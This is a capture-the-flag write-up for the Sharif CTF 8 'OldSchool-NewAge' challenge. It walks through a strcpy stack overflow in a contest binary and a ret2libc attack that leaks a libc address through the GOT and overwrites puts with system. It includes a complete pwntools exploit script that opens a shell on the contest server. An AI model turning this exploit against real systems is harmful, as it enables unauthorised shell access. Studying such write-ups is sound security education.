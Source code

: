 # __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  <img src="screens/copy_it_asm.png">
</p>


### Finding the vulnerability
```asm
sub     esp, 18h
sub     esp, 8
```
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get the shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### And this is subtitle
Text under the subtitle

> Flag here
